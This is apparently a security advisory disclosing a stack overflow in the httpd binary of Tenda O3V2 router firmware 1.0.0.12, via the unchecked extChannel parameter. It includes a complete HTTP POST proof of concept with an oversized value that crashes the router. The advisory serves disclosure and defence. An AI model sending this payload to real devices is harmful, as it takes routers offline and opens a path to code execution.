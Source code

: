 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `formWifiBasicSet` function, `extChannel` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `extChannel` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `extChannel` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `extChannel` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/setWrlBasicInfo HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 595
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1//index.html
Cookie: O3V2.0_user=admin

wifi_chkHz=0&wifiEn=1&selectSsid=&country=&channel=&netMode=bgn&extChannel=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&bandwidth=0&power=&tranSpeed=&timeZone=&staTimeout=&ssid=&ssidEn=&broadcastSsid=&isolationEn=&maxClient=&channelOffset=
```



## Result

The target router crashes and cannot provide services correctly and persistently.
